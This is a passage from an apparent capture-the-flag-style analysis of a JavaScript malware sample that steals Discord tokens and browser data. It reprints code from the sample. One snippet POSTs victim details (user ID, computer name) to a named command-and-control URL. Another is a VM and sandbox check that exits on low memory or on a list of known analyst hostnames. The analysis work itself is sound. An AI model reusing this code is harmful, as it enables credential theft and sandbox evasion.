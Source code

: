 

`api` is likely the C2 server that's in use,
`https://illitmagnetic.site/api/` (Task 5 and Task 7). There are 20
occurrences of the string "options.api", and all 20 are proceeded by
"fetch(".

### General

#### \<function\>

`<function>` is a function that defines itself and then calls itself in
a very JavaScript way:



    (async() => {
    ...[snip]...
    })();



Inside there are three `try` / `catch` blocks, each with the same
`catch` except for the error message is slightly different:



        try {
    ...[snip]...
        } catch(e) {
            await fetch(options.api + 'errors', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    duvet_user: options?.user_id,
                    computer_name: userInfo()?.username,
                    data: {
                        error: `Error from Injection: ${e}`
                    }
                })
            });
        };



The first block calls three functions, and the other two call one each:

1.  `checkVm`, `checkCmdInstallation`, and `newInjection`
2.  `getDiscordTokens`
3.  `allBrowserData`

#### checkVm

There's a function called `checkVM`:



    function checkVm() {
        if(Math.round(totalmem() / (1024 * 1024 * 1024)) < 2) process.exit(1);
        if([
            'bee7370c-8c0c-4', 'desktop-nakffmt', 'win-5e07cos9alr', 'b30f0242-1c6a-4', 'desktop-vrsqlag', 'q9iatrkprh', 'xc64zb',
            'desktop-d019gdm', 'desktop-wi8clet', 'server1', 'lisa-pc', 'john-pc', 'desktop-b0t93d6', 'desktop-1pykp29', 'desktop-1y2433r',
            'wileypc', 'work', '6c4e733f-c2d9-4', 'ralphs-pc', 'desktop-wg3myjs', 'desktop-7xc6gez', 'desktop-5ov9s0o', 'qarzhrdbpj',
            'oreleepc', 'archibaldpc', 'julia-pc', 'd1bnjkfvlh', 'compname_5076', 'desktop-vkeons4', 'NTT-EFF-2W11WSS', 'aranmoo', 'kathlcox', 'rotembarne', 'bilawson', 'seanwalla', 'gugonzal', 'zachwood', 'theresap', 'joyedwar', 'richar', 'dburns', 'willipe'
        ].includes(hostname().toLowerCase())) process.exit(1);
